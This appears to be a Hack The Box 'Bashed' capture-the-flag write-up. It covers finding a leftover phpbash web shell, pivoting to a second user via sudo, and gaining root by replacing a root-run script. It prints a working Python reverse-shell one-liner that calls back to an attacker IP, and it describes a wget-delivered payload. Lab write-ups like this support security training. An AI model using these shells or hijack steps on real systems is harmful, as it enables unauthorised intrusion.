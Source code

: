 # HTB: Bashed

## Reconnaissance

A blog post on the Apache server running on port 80 mentioned
[phpbash](https://github.com/Arrexel/phpbash), a standalone semi-interactive
shell, and that it had been _developed on the server_. With this in mind I 
located it at `/dev/phpbash.php`. 

![Possibility of webshell still on server.](screenshots/2022-10-30_16-13.png)

![phpbash.php located in /dev/](screenshots/2022-10-30_16-14.png)

## Initial Access

Navigate to: `/dev/phpbash.php`.

![Proof of command execution as user 'www-data'](screenshots/user_proof.png)

## Privilege Escalation

User "www-data" could execute any command as the user "scriptmanager" without a 
password. However, as this web shell is semi-interactive I was unable to spawn 
an interactive bash shell as the "scriptmanager" user. 

![sudo -l output](screenshots/2022-10-30_16-16.png)

Upgraded to an interactive shell by executing the following command and 
catching it with a netcat listener:

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.7",80));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![Interactive shell](screenshots/2022-10-30_17-17.png)

Pivoted to scriptmanager user: 

![sudo -u scriptmanager](screenshots/2022-10-30_16-23.png)

Scriptmanager could modify files in the `/scripts/` directory which contained a
python program named `test.py`. This script outputs a file named `test.txt`.
Take note that the owner of this file is root and that it is writing a new file
every minute. 

![/scripts/](screenshots/2022-10-30_16-26.png)

Create a python reverse shell payload and transfer it on to the target system.
Renaming it `test.py` and starting a netcat listener.

![Python reverse shell payload](screenshots/2022-10-30_16-34.png)

![Using python http server module](screenshots/2022-10-30_16-34_1.png)

![Using wget to download payload](screenshots/2022-10-30_16-36.png)

After approximately a minute you should recieve a call back to your listener 
with command execution as the root user.

![Proof of command execution as root](screenshots/root_proof.png)
